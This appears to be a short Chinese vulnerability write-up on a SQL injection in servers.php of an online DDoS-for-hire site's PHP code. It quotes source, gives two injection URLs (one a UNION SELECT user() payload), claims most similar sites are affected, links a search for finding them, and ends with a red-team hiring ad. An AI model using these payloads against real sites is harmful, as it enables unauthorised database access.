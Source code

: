 # Security
一个小洞洞，不喜欢写很多废话，下面的描述也是。

# 小介绍
无意中在谷ge上搜索到了提供在线DDOS攻击的站点，感觉好好奇哦，这玩意是不是可以改变世界？

URL：http://www.ddos.rip/

这里是测评介绍，感觉挺丰富且价格也不是很贵，然后对于我们这些搬砖的攻城狮而言，花钱是不可能的，一定是不可能的！

# 过程
```
$SQLCheckLost = $odb -> prepare("SELECT COUNT(*) FROM `users` WHERE `username` = :username AND `email` = :mail AND `scode` = :scode ");
$SQLCheckLost -> execute(array(':username' => $username, ':mail' => $mail, ':scode' => $scode));
$countLost = $SQLCheckLost -> fetchColumn(0);
if ($countLost > 0)
{
function generarCodigo($longitud) {
 $key = '';
 $pattern = '1234567890abcdefghijklmnopqrstuvwxyz';
 $max = strlen($pattern)-1;
 for($i=0;$i < $longitud;$i++) $key .= $pattern{mt_rand(0,$max)};
 return $key;
}
```
几乎全部的文件都是通过预处理进行SQL传递，这玩意跟注入一直就是死对头，但是在SERVERS.PHP这玩意中没有顾忌到，虽然也是预处理，但是并没有通过赋值操作。
# Payload

```server.php?sv=A1%%23' 将SQL语句闭合，然后你们懂的。```
```/ajax/servers.php?sv=A1%%27%20UNION%20ALL%20SELECT%20user()%23-- Next You K```

# 影响

这样说吧，百分之七十的DDOS在线攻击网站都存在......g
谷x搜索:
https://www.google.com/search?ei=IO0NXaHYIIzdvgT2vq3ABg&q=ddos%E7%BD%91%E9%A1%B5%E7%AB%AF&oq=ddos%E7%BD%91%E9%A1%B5%E7%AB%AF&gs_l=psy-ab.12...853628.857136..858562...0.0..0.1153.1153.7-1......0....1..gws-wiz.XQGEBD9xDU0


# 结构

```
├─@
├─admin
├─ajax
│  ├─Crypt
│  ├─File
│  ├─js
│  ├─Math
│  └─Net
├─apikey
├─assets
│  ├─images
│  └─user
│      ├─css
│      ├─fonts
│      └─js
├─css
├─fonts
├─images
├─js
├─picture
└─user
```

这种垃圾的架构我也是醉了，虽然我不会ThinkPhp审计......
@ 文件夹主要是Config文件以及全局函数文件
admin 就不说了，此文件夹下也存在着相同的漏洞，但是对于黑盒而言，此漏洞是不存在的，因为TMD的后台根本就不会让你找到
ajax 主要以usercp为主，以及前台登录的login，以及servers
apikey 通过前端获取命令然后通过api向发包机发送指令
下面几个文件夹可以无视

# 么么哒

奇安信(原360企业安全)高级攻防部招聘

红队方向、渗透测试、还有一些你喜欢做的事情.....

usernameandpwd@protonmail.ch
